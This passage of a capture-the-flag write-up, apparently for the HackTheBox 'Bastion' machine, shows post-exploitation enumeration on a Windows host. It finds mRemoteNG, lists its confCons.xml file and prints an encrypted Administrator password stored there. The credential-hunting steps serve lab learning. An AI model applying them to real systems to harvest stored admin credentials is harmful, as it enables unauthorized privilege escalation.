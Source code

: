 
execute it and observe! here is some info that I think it is interesting...
```
  [+] Installed Applications --Via Program Files/Uninstall registry--                         
   [?] Check if you can modify installed software https://book.hacktricks.xyz/windows/windo    dows/windo
ws-local-privilege-escalation#software                                                                    
    C:\Program Files (x86)\mRemoteNG                                                               
```
this is some program that is not install by defualt, read more about mRemoteNG [here](https://mremoteng.org/) 
```
    Folder: C:\Users\L4mpje\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup            
    FolderPerms: L4mpje [AllAccess]                                                            
    File: C:\Users\L4mpje\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\L4mpje-0m\L4mpje-
script.bat                                                                                                    
    FilePerms: L4mpje [AllAccess]                                                              
   ======================================
```
I start to dig more about `mRemoteNG`, googled "mremoteng config file location" and I found this [link](http://forum.mremoteng.org/viewtopic.php?f=4&t=1550). so it seems like `mRemoteNG` have a `Connection File` which stored at `%userprofile%\AppData\Roaming\mRemoteNG\confCons.xml`. lets take a look what contain in the file..
```
 Directory of C:\Users\L4mpje\AppData\Roaming                                                   

22-02-2019  15:01    <DIR>          .                                                           
22-02-2019  15:01    <DIR>          ..                                                          
22-02-2019  14:50    <DIR>          Adobe                                                       
22-02-2019  15:03    <DIR>          mRemoteNG
 Directory of C:\Users\L4mpje\AppData\Roaming\mRemoteNG                                         

22-02-2019  15:03    <DIR>          .                                                           
22-02-2019  15:03    <DIR>          ..                                                          
22-02-2019  15:03             6.316 confCons.xml                                                
22-02-2019  15:02             6.194 confCons.xml.20190222-1402277353.backup                     
22-02-2019  15:02             6.206 confCons.xml.20190222-1402339071.backup                     
22-02-2019  15:02             6.218 confCons.xml.20190222-1402379227.backup                     
22-02-2019  15:02             6.231 confCons.xml.20190222-1403070644.backup                     
22-02-2019  15:03             6.319 confCons.xml.20190222-1403100488.backup                     
22-02-2019  15:03             6.318 confCons.xml.20190222-1403220026.backup                     
22-02-2019  15:03             6.315 confCons.xml.20190222-1403261268.backup                     
22-02-2019  15:03             6.316 confCons.xml.20190222-1403272831.backup                     
22-02-2019  15:03             6.315 confCons.xml.20190222-1403433299.backup                     
22-02-2019  15:03             6.316 confCons.xml.20190222-1403486580.backup                     
22-02-2019  15:03                51 extApps.xml                                                 
22-02-2019  15:03             5.217 mRemoteNG.log                                               
22-02-2019  15:03             2.245 pnlLayout.xml                                               
22-02-2019  15:01    <DIR>          Themes                                                      
              14 File(s)         76.577 bytes                                                   
               3 Dir(s)  11.309.920.256 bytes free                                              

l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG>type confCons.xml  
```
Boom! seem like we got a encrypted/encoded admin password, I tried to decode in with base64 but it just gave me a weird char.
```xml
<Node Name="DC" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="500e7d58-662
a-44d4-aff0-3a4f547a3fee" Username="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9k
VqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==" Hostname="127.0.0.1" Protocol="
RDP".......
```